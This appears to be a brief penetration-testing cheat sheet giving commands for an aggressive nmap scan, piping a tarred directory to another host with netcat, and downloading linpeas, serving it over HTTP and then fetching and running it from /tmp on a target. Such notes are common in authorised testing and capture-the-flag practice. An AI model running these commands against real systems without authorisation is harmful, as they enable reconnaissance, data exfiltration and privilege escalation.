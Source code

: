## Nmap scan:
```bash
nmap -v -sV -O -A --top-ports 5000 -oN output.txt <host>
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc <host> 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve linpeas
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget <host>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
